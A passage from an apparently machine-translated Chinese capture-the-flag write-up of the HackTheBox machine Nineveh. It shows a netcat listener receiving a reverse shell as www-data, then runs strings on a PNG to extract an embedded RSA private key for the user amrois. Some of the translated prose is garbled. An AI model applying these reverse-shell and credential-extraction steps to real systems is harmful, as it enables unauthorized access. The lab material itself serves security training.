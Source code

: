 
它在那个点上冻结了，壳在：`nc`

    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.43.
    Ncat: Connection from 10.10.10.43:43916.
    bash: cannot set terminal process group (1387): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@nineveh:/var/www/html/department$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Priv： www-data –> 阿姆罗伊

### 列举

在这个盒子上没有太多可找的东西，我又回到了我已经拥有的线索，特别是刚刚输出图像的目录，以及登录页面中的注释，上面写着要检查秘密文件夹以进入，这是一个挑战。`/secure_notes`

该目录只包含 和 ：`/secure_notes``.png``index.html`

    www-data@nineveh:/var/www/ssl/secure_notes$ ls
    index.html  nineveh.png
    

当CTF将您带到一个地方，然后您找到的只是一个图像时，值得对其进行更多检查。跑步验证了倾斜度：`strings`

    www-data@nineveh:/var/www/ssl/secure_notes$ strings -n 20 nineveh.png 
    -----BEGIN RSA PRIVATE KEY-----
    MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
    H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
    PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
    FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
    3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
    X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
    KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
    FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
    GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
    JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
    9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
    Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
    ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
    1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
    vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
    DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
    P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
    fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
    tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
    iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
    MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
    PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
    i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
    il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
    fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
    -----END RSA PRIVATE KEY-----
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY//CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R amrois@nineveh.htb
    
